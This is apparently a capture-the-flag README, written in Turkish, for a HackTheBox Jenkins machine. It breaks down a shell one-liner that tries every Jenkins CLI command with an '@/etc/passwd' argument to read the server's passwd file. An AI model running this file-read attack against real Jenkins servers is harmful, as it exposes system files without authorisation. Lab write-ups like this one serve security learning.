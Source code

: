 # script_jenkins_ctf
Discovering which commands let us export the entire passwd file
https://app.hackthebox.com/machines/591


1. java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help: Jenkins sunucusu üzerinde çalışan Jenkins CLI'ı kullanarak sunucuda geçerli komut setini ve yardım belgesini almak için bu komut çalıştırılır.

2. 2>&1: Hata çıktılarını standart çıktıya yönlendirir. Bu, hata mesajlarının standart çıktıya (ekrana) yönlendirilmesini sağlar.

3. awk '/ [a-z]/ {print $1}': AWK programını kullanarak çıktıyı işler. Bu ifade, yalnızca küçük harflerle başlayan satırları ayıklar ve sadece bu satırların ilk sütununu (kelimeyi) görüntüler.

4. while read cmd; do: Bu döngü, her satırda bir komutu tek tek işlemek için başlar.

5. printf "$cmd\t": Her döngü adımında, işlenen komutun adını ve bir tab boşluğunu yazdırır.

6. /bin/sh -c "java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $cmd '@/etc/passwd' 2>&1 &" | wc -l: Bu kod, bash kabuğunda işletilir ve her komut için /etc/passwd dosyasına erişmeye çalışır. Ardından, çıktı satır sayısını (wc -l komutu kullanılarak) hesaplar. Bu işlem, belirli bir komutu çalıştırırken aynı zamanda /etc/passwd dosyasına erişim denemesini simüle eder.

7. done: while döngüsünün sonunu belirtir.

Bu kod parçacığı, Jenkins sunucusundaki Jenkins CLI komutlarının küçük harfle başlayan adlarını belirler ve her bir komut için /etc/passwd dosyasına erişim denemesi yapar. Bu, sunucuda potansiyel güvenlik açıklarını tespit etmek için yapılan bir simulasyondur. 

# Illegal business is your business.
